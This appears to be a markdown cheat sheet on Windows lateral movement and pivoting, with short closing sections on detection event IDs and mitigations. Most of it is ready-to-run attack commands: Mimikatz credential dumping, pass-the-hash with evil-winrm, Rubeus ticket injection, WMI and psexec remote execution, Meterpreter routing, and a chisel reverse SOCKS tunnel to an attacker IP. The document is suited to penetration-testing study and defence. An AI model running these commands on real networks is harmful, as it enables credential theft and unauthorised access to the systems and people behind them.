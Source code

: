   
## 📚 Table of Contents

  

1. [Introduction](#introduction)
2. [Techniques for Lateral Movement](#techniques-for-lateral-movement)
    - [Using Credential Dumping](#using-credential-dumping)
    - [Pass-the-Hash](#pass-the-hash)
    - [Pass-the-Ticket](#pass-the-ticket)
    - [Over-Pass-the-Hash (Pass-the-Key)](#over-pass-the-hash-pass-the-key)
    - [WMI & WinRM Execution](#wmi--winrm-execution)
    - [PsExec & SMB](#psexec--smb)
3. [Pivoting Through Compromised Hosts](#pivoting-through-compromised-hosts)
    - [SOCKS Proxy via Meterpreter](#socks-proxy-via-meterpreter)
    - [SSH Pivoting / Port Forwarding](#ssh-pivoting--port-forwarding)
    - [Using Chisel / Ligolo / Proxychains](#using-chisel--ligolo--proxychains)
4. [Detecting Lateral Movement](#detecting-lateral-movement)
5. [Mitigations & Best Practices](#mitigations-&-best-practices)
6. [Conclusion](#conclusion)

  ---

## Techniques for Lateral Movement

### Using Credential Dumping

Dump credentials using Mimikatz or LSASS access:

```
mimikatz.exe
```

```
sekurlsa::logonpasswords
```

### Pass-the-Hash

```
evil-winrm -i 10.10.10.10 -u Administrator -H <NTLM_HASH>
```

  
### Pass-the-Ticket (PtT)

Extract and inject Kerberos tickets:

```
Rubeus.exe asktgt /user:USERNAME /rc4:NTLM_HASH
```

```
Rubeus.exe ptt /ticket:TICKET.kirbi
```

### Over-Pass-the-Hash (Pass-the-Key)

```
mimikatz # kerberos::ptt ticket.kirbi
```
  
### WMI & WinRM Execution

```
Invoke-WmiMethod -ComputerName victim -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami"
```

```
evil-winrm -i 10.10.10.10 -u user -p password
```

### PsExec & SMB

```
psexec.py Administrator@10.10.10.10
```
  
---
  
## Pivoting Through Compromised Hosts
  
### SOCKS Proxy via Meterpreter

```
meterpreter > run autoroute -s 10.10.0.0/16
```

```
meterpreter > run socks_proxy
```
  
Configure proxychains or tools like:

```
proxychains xfreerdp ...
```

### SSH Pivoting / Port Forwarding

```
ssh -L 1080:10.10.10.10:3389 user@pivot_host
```

### Using Chisel / Ligolo / Proxychains

Start chisel server:

```
chisel server -p 8000 --reverse
```

Client:

```
chisel client <attacker-ip>:8000 R:1080:socks
```

## Detecting Lateral Movement

Detection strategies include:

- Monitoring Authentication Logs — Look for unusual logins, logon types, or accounts accessing multiple systems in short time spans.

- Windows Event IDs —    
    - 4624 (Successful logon) — check for anomalies
    - 4625 (Failed logon attempts) — brute-force indicators        
    - 4769 (Kerberos service ticket request) — possible PtT
- Network Traffic Analysis — Identify unusual SMB, RDP, or WinRM activity.
- Honeypots — Deploy decoy credentials or hosts to detect unauthorized movement.

---
## Mitigations & Best Practices

- Enforce Multi-Factor Authentication (MFA) for privileged accounts.
- Limit Lateral Movement Paths — Segment networks and apply least privilege.
- Disable Legacy Protocols like SMBv1 and NTLM where possible.
- Patch Regularly to prevent exploitation of known vulnerabilities.
- Use Credential Guard / LSASS Protection to prevent credential dumping.
- Implement Monitoring & Alerting — SIEM rules for unusual account usage.

---
## Conclusion

Lateral movement is a key phase in post-exploitation that allows attackers to expand access and target critical assets. Understanding the techniques, being able to detect them, and applying strong mitigations is essential for reducing risk. Combining **proactive defense** with **continuous monitoring** will significantly improve resilience against these threats.